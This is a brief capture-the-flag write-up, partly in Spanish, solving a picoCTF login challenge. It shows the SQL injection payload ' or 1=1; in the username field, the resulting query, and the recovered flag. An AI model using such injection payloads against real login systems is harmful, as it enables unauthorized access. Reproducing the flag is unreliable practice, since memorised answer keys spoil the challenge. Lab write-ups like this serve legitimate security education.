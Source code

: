 # Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
# Pistas
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
# Solución
```
username: ' or 1=1;
password: hola
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='hola'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
# Notas adicionales
# Referencias
- https://www.w3schools.com/sql/sql_injection.asp